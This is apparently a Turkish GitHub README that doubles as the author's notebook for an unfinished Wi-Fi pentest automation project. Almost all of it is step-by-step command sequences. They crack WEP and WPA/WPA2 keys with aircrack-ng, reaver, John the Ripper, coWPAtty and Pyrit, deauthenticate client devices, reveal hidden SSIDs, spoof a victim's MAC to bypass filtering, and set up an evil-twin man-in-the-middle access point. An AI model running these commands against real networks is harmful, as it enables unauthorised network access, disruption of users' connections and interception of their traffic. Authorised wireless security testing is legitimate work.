 Bu Reponun amacı Wi-Fi Pentestlerini otomotize bir hale getirmek için oluşturulmuş bir Repo'dur. Amaç; hem bir not defteri olarak kullanmak hem de eksik görülen yerleri eklemektir. Proje hala daha "geliştirilme aşamasında" olup henüz tam olarak çalışmamaktadır. Olması hedeflenen saldırı türleri;

- Coffe - Latte Attack
- Deauthentication Attack (Stress Testing)
- PMKID Attack
- SSL MITM Attack
- Korek's Chop Chop Attack
- Fragmantation And Hitre Attack
- Hotsopt Attack
- Detecting AP Spoffing
- Detecting AP MAC Spoffing
- WPA/WPA2/WEB Capture Handshake
- Control Wi-Fi Card


Monitoring

root@mert:~airmon-ng check kill

monitor mod on

root@mert:~ifconfig wlan0 down
root@mert:~airmon-ng start wlan0
//hata verirse bekle tekrar dene
//iwconfig wlan0 mode monitor
//use wlan0 instead of wlan0mon

root@mert: ifconfig wlan0 up

Increase Wi-Fi TX Power

root@mert:~iw reg set B0
root@mert:~iwconfig wlan0 txpower <NmW|NdBm|off|auto>
txpower is 30 (generally)
txpower is depends your country, please googling
root@mert:~iwconfig


Change WiFi Channel wifi çanıl seç
root@mert:~iwconfig wlan0 channel <SetChannel(1-14)>



WEP CRACKING
 Method 1 : Fake Authentication Attack #sahte atak
root@mert:~ airmon-ng start wlan0
root@mert:~ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC adresim ne?
root@mert:~ macchanger --show wlan0mon

root@mert:~ aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
root@mert:~ aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <OurMac> wlan0mon
root@mert:~ aircrack-ng –b <BSSID> <PCAP_of_FileName>



Method 2 : ARP Replay Attack #arp atak

root@mert:~ airmon-ng start wlan0
root@mert:~ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
//MAC Adresim ne hacı?
root@mert:~ macchanger --show wlan0mon
root@mert:~# aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <OurMac> wlan0mon
root@mert:~# aircrack-ng –b <BSSID> <PCAP_of_FileName>



Method 3 : Chop Chop Attack  #!!!!!!mantığını araştır ve anla bunu!!!!!!

root@mert:~ airmon-ng start wlan0
root@mert:~ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~ macchanger --show wlan0mon
root@mert:~ aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@mert:~ aireplay-ng -4 –b <BSSID> -h <OurMac> wlan0mon
root@mert:~ packetforge-ng -0 –a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@mert:~ aireplay-ng -2 –r <FileName2> wlan0mon
root@mert:~ aircrack-ng <PCAP_of_FileName>




Method 4 : Fragmentation Attack

root@mert:~ airmon-ng start wlan0
root@mert:~ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~ macchanger --show wlan0mon
root@mert:~ aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@mert:~ aireplay-ng -5 –b<BSSID> -h < OurMac > wlan0mon
//Press ‘y'
root@mert:~ packetforge-ng -0 –a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@mert:~ aireplay-ng -2 –r <FileName2> wlan0mon
root@mert:~ aircrack-ng <PCAP_of_FileName>




Method 5 : SKA (Shared Key Authentication) Type Cracking

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~ifconfig wlan0mon down
root@mert:~macchanger –-mac <VictimMac> wlan0mon
root@mert:~ifconfig wlan0mon up
root@mert:~aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
root@mert:~aireplay-ng –-deauth 1 –a <BSSID> -h <FakedMac> wlan0mon
root@mert:~aircrack-ng <PCAP_of_FileName>
----------------------------------------------------------------------------------------------------------


WPA / WPA2 CRACKING
Method 1 : WPS Attack

root@mert:~airmon-ng start wlan0
root@mert:~apt-get install reaver
root@mert:~wash –i wlan0mon 
root@mert:~reaver –i wlan0mon –b <BSSID> -vv –S
//or, Specific attack
root@mert:~reaver –i wlan0mon –c <Channel> -b <BSSID> -p <PinCode> -vv –S



Method 2 : Dictionary Attack #mantığını kavra!!!!

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~aircrack-ng –w <WordlistFile> -b <BSSID> <Handshaked_PCAP>




Method 3 : Crack with John The Ripper #en son işlem. Gerekliliğini araştır****

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~cd /pentest/passwords/john
root@mert:~./john –wordlist=<Wordlist> --rules –stdout|aircrack-ng -0 –e <ESSID> -w - <PCAP_of_FileName>
#or
root@mert:~aircrack-ng <FileName>.cap -J <outFile>
root@mert:~hccap2john <outFile>.hccap > <JohnOutFile>
root@mert:~john <JohnOutFile>



Method 4 : Crack with coWPAtty #bunu hiç bilmiyon. Kesinlikle bak.....!!!

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~cowpatty –r <FileName> -f <Wordlist> -2 –s <SSID>
root@mert:~genpmk –s <SSID> –f <Wordlist> -d <HashesFileName>
root@mert:~cowpatty –r <PCAP_of_FileName> -d <HashesFileName> -2 –s <SSID>




Method 5 : Crack with Pyrit

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~pyrit –r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
root@mert:~pyrit –i <Wordlist> import_passwords
root@mert:~pyrit –e <ESSID> create_essid
root@mert:~pyrit batch
root@mert:~pyrit –r <PCAP_of_FileName> attack_db




Method 6 : Precomputed WPA Keys Database Attack

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~kwrite ESSID.txt
root@mert:~airolib-ng NEW_DB --import essid ESSID.txt
root@mert:~airolib-ng NEW_DB --import passwd <DictionaryFile>
root@mert: airolib-ng NEW_DB --clean all
root@mert:~airolib-ng NEW_DB --stats
root@mert:~airolib-ng NEW_DB --batch
root@mert:~airolib-ng NEW_DB --verify all
root@mert:~aircrack-ng –r NEW_DB <Handshaked_PCAP>

-----------------------------------------------------------------------------------
FIND HIDDEN SSID

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <Channel> --bssid <BSSID> wlan0mon
root@mert:~aireplay-ng -0 20 –a <BSSID> -c <VictimMac> wlan0mon


-------------------------------------------------------------------------------------
BYPASS MAC FILTERING
#klasik işlemler. Unutmamak için koydum. Ama yine de bak!!

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~ifconfig wlan0mon down
root@mert:~macchanger –-mac <VictimMac> wlan0mon
root@mert:~ifconfig wlan0mon up
root@mert:~aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon

--------------------------------------------------------------------------------------------------

MAN IN THE MIDDLE ATTACK

root@mert:~airmon-ng start wlan0
root@mert:~airbase-ng –e “<FakeBSSID>” wlan0mon
#apt-get install bridge-utils #bunu netten buldum. Gerekliliğini araştır. Ama sorun çözüyor...
root@mert:~brctl addbr <VariableName>
root@mert:~brctl addif <VariableName> wlan0mon
root@mert:~brctl addif <VariableName> at0
root@mert:~ifconfig eth0 0.0.0.0 up
root@mert:~ifconfig at0 0.0.0.0 up
root@mert:~ifconfig <VariableName> up
root@mert:~aireplay-ng –deauth 0 –a <victimBSSID> wlan0mon
root@mert:~dhclient3 <VariableName> &
root@mert:~wireshark &
;select <VariableName> interface
